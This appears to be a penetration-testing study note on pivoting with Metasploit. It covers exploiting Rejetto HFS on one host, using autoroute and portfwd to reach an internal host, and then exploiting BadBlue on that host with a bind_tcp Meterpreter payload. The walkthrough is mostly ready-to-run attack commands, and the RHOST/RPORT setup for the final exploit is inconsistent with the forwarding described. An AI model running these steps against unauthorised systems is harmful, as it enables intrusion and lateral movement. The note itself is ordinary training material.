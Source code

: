 # Pivoting in Post-Exploitation

Pivoting is a **post-exploitation technique** used when you compromise one machine (Victim 1) that has access to other internal systems (Victim 2).  
Since Victim 2 is not directly accessible from outside, we pivot through Victim 1 to reach it.

---

## 📌 Concept
- Exploit **Victim 1** (publicly accessible) → gain Meterpreter session.  
- Use Victim 1 as a **bridge** to access **Victim 2** (internal-only).  

![Pivoting Diagram](https://drive.google.com/uc?id=1NrzD89ICajcoRexLKX9Lpg58mXuJw3KC)

---

## 🔥 Practical Walkthrough

###  Exploit Victim 1
Exploit a public service (e.g., Rejetto HFS) on Victim 1 to get a Meterpreter shell.

```bash
meterpreter > ipconfig
```



Check available interfaces and note the **internal subnet**.

---

###  Add a Route for Internal Network

```bash
meterpreter > run autoroute -s <ip_subnet_range/20>
```

* This tells Metasploit to route traffic for that subnet through Victim 1.
* ⚠️ Important: This only works for **Metasploit modules**. External tools like `nmap` won’t work with this route.

---

###  Scan Victim 2 from Metasploit

Use Metasploit’s TCP port scanner:

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS <victim2 IP>
run
```

Or directly with `db_nmap` via port forwarding (explained below).

---

###  Port Forwarding

If Victim 2 is only accessible internally, forward its port to your local machine:

```bash
meterpreter > portfwd add -l 1234 -p 80 -r <victim2 IP>
```

* `-l 1234` → Local port on your machine.
* `-p 80` → Remote port on Victim 2.
* `-r <victim2 IP>` → Target inside network.

Now you can interact with Victim 2 as if it were running on your localhost:

```bash
msf6 > db_nmap -sS -sV -p 1234 localhost
```

✅ Test in browser:

```
http://127.0.0.1:1234
```

---

### Exploit Victim 2

Victim 2 is running **BadBlue**. Use the BadBlue passthru exploit:

```bash
use exploit/windows/http/badblue_passthru
set RHOST <victim2 IP>
set RPORT 80   # forwarded port
set TARGET BadBlue EE 2.7
set PAYLOAD windows/meterpreter/bind_tcp
exploit
```

#### Why `bind_tcp` payload?

* Since Victim 2 is in the internal network and we forwarded its port, a **bind shell** makes Victim 2 listen for connections.
* Our attack machine connects to it via the forwarded port, bypassing the fact that Victim 2 is not directly reachable from outside.

---
